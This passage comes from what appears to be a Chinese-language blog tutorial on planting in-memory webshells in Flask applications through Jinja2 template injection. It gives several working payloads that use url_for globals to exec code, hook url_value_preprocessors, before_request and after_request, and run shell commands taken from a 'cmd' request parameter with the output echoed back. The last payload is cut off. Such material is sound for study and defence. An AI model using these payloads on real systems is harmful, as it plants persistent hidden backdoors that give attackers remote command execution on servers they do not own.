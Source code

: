 ```python
```
又比如定义内存马抛出的异常类型为`HTTPException`，这样就可以定义异常的类型了，这里定义为`404``200`都可以，~~前提是你能够触发~~。
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
he=ufg['HTTPException'];he.code=404;
app.url_value_preprocessors[None].append(
lambda ep, args: (_ for _ in ()).throw(he(description=__import__('os').popen(request.args.get('cmd')).read())) if 'cmd' in request.args.keys() is not None else None
)
", 
{'request':url_for.__globals__['request'], 'ufg': url_for.__globals__, 'app':url_for.__globals__['current_app']}) }}
```
这里定义的`404`，效果如下：因为`lambda`函数里判断是否执行内存马，所以不会影响其他，只有在执行的时候抛出一个`404`异常，然后这个时候就可以经过上面提到的对异常类型的判断。这里是一个`HTTPException`异常后就能够正常的回显了。并且这里这个路由存不存在都没关系。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717849269293-a9e1ac11-b2c8-45de-8a3d-42347030ecba.png#averageHue=%23b5dbd3&clientId=u8309ad53-fa41-4&from=paste&height=506&id=u62f23483&originHeight=632&originWidth=1179&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=91143&status=done&style=none&taskId=ubf1b921e-4849-4788-81e1-cfd4194426c&title=&width=943.2)

其实在做这里的时候，对于异常的处理这块还想了一些其他的方法，比如打开 `debug`，做过之后发现是能够修改的，但是修改了也没用，在文件里打开的时候，flask 应用的启动是通过werkzeug中的debug来启动的。还有就是想到了修改`500`错误的回显，这个报错`TypeError: 'mappingproxy' object does not support item assignment`是不允许修改的。

### @app.before_request
这个装饰器用于注册一个函数，该函数会在每次请求之前执行。它常用于在处理请求之前进行一些预处理操作，如验证用户身份、设置全局变量等。最终操作的数据是`before_request_funcs`，这个装饰器可以有多个，按照注册顺序调用。可以通过`url_for.__globals__['current_app'].__dict__['before_request_funcs']`查看有哪些。在处理请求的时候，函数`flask.app.Flask.preprocess_request`先对url进行预处理后对请求进行预处理。
```python
@app.before_request
def first_before_request():
    ...
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717769618486-b44c2df2-e17c-48e6-a277-b231873d13bf.png#averageHue=%23edf0f4&clientId=u15af632c-5e6d-4&from=paste&height=292&id=ucfe85f17&originHeight=365&originWidth=1880&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=74558&status=done&style=none&taskId=u55d8143d-6da6-4da9-886a-2f90d62ad11&title=&width=1504)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717851507177-26eb95d0-c64d-48a7-ae6a-e49010ce5992.png#averageHue=%231f2024&clientId=ue331e04d-0d85-4&from=paste&height=577&id=u279e13d8&originHeight=721&originWidth=1156&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=104735&status=done&style=none&taskId=ud033bcf2-8571-4ed0-b3ae-e396a03e242&title=&width=924.8)
Payload 如下
```python
{{ url_for.__globals__['__builtins__']['eval'](
"
app.before_request_funcs.setdefault(None, []).append(lambda : '<pre>{0}</pre>'.format(__import__('os').popen(request.args.get('cmd')).read()) if 'cmd'in request.args.keys() is not None else None
)
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}
```
### @app.after_request
这个装饰器用于注册一个函数，该函数会在每次请求之后调用，通常用于修改响应对象。其最终操作的数据为`after_request_funcs`，当一个请求在返回之前会传入一个`Response`调用`process_response`函数来对响应进行处理。定义的处理函数需要接收一个`Response`对象处理后返回`Response`对象。
> 在版本 1.1.0 中进行了更改：当没有处理程序时，即使对于默认的 500 响应，也会完成 after_request 函数和其他终结。

```python
@app.after_request
def after_request_func(response):
    response.headers['X-Something'] = 'A value'
    return response
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717853971281-21b20610-e4d5-4d31-82bb-df731c26c334.png#averageHue=%231f2024&clientId=ue331e04d-0d85-4&from=paste&height=605&id=u42fbd34b&originHeight=756&originWidth=1329&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=130422&status=done&style=none&taskId=u619438c7-3553-438e-b054-3b4e846dfb6&title=&width=1063.2)
Payload如下
```python
{{ url_for.__globals__['__builtins__']['eval'](
"
app.after_request_funcs.setdefault(None, []).append(lambda resp: ufg['Response']('<pre>{0}</pre>'.format(__import__('os').popen(request.args.get('cmd')).read())) if 'cmd'in request.args.keys() is not None else resp)
```